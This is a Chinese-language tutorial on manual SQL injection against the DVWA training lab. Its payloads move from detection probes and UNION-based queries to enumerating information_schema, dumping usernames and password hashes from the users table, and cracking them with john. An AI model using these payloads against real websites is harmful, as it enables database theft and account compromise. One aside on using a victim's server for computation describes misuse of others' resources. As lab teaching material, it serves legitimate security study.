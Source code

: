 # SQL手工注入（一）

> SQL注入：通过把SQL命令插入到Web表单提交或输入域名，页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令

> 服务器程序将用户输入参数作为查询条件,直接拼接SQL语句,并将查询结果返回客户端浏览器

**用户登录判断**

```
SELECT * FROM users WHERE user='uname' AND password='pass'

SELECT * FROM users WHERE user='name' AND password=''OR"=''  [OR:逻辑运算符,(password假)"或"('1'='1'真)]
```

**SQL注入存在位置**

```
表单,GET方式的URL
```

---



##SQL检测方法

> 使用DVWA实验环境,安全等级设为low

1. 基于报错的检测方法

```
'    (单引号)
```

![SQL1](img/SQL injection/SQL1.png)

```
"   (尝试两个单引号)  [结果:两两闭合]
```

```
'a"b   (单引号+a+双引号+b)
```

![SQL2](img/SQL injection/SQL2.png)

则说明可以构造复杂的SQL语句进行注入

```
"      %       ()
```

2. 基于布尔的检测

- First   1' and '1'='1   等于 1' and '1       

猜测语句:

```
Select first_name,surname from users where id=' 1' and '1'='1 '
```

![SQL3](img/SQL injection/SQL3.png)



- Second: 1' and '1'='2      等于 1' and '0   [若无返回结果,则可验证上猜测语句]

3. 表列数/显示信息位于哪一列

```
' order by 9--   (单引号+order by+空格+数字 [该数字用于指定字段,可以填大而后猜确切列数]+--+空格[一定要有空格,否则会出现语法错误   --:为注释])
```

构造select语句

4. 联合查询[为了在过滤的单引号后面,在运行查询语句]

> union与union all作用基本完全相同

```
First: 'union select 1,2 --   [确定查询后结果在页面中出现位置]
```

```
Second: 1' union select user(),2--  [1替换成一个数据库默认user()查询数据库用户]
       'union select user(),version()-- [将2替换成函数version()查询版本]
```

> database()查询数据库名称
>
> 全局函数:@@datadir  查询数据库的文件位置
>
> >​            @@hostname   查询主机名
>
> > ​             @@version_compile_os     查询操作系统版本



**构造复杂的SQL语句**

```
' union select database(),substring_index(USER(),"@",1)--
```

使用firefix插件hackbar工具:

![SQL5](img/SQL injection/SQL5.png)

绕过一些过滤不严的机制:

```
CHAR()    将ASCII码转换为对应的字符
```

连接字符:

```
CONCAT_WS()        将多个函数连接在一起
```

![SQL6](img/SQL injection/SQL6.png)

计算MD5  [可用于使用别人的服务器资源来为自己做大量的数据运算]





了解数据库的数据结构

> MySQL:所有的元数据都保存在一张元数据表中[information_schema]

1. 查看所有库所有表/统计库中表的数量

```
' union select table_name,table_schema from information_schema.tables--+ [所有库所有表]
```

![SQL7](img/SQL injection/SQL7.png)

![SQL8](img/SQL injection/SQL8.png)



```
' UNION select table_schema,count(*) imgFROM information_Schema.tables group by table_schema --+    [统计每个库中表的数量]
```

![SQL9](img/SQL injection/SQL9.png)



2. DVWA库中的表名 [一个参数漏洞,也可造成拖库]

```
' union select table_name,table_schema from information_schema.tables where table_schema='dvwa'--+     【通过表名猜测账号密码存放位置】
```

![SQL10](img/SQL injection/SQL10.png)



3. 查询users表中所有的列(user_id,first_name,last_name,user,password,avatar)

```
' union select table_name,column_name from information_schema.columns where table_schema='dvwa' and table_name='users'--+
```

![SQL11](img/SQL injection/SQL11.png)



4. 查询user,password列中的内容

```
' union select user,password from dvwa.users--+
' union select user,password from users--+
' union select null,concat(user,0x3a,password)from users--+ [concat:连接,需指定分隔符]
```



5. 密码破解

猜测密码算法:hash-identifier





**工具**

john--formt=raw-MD5 dvwa.txt

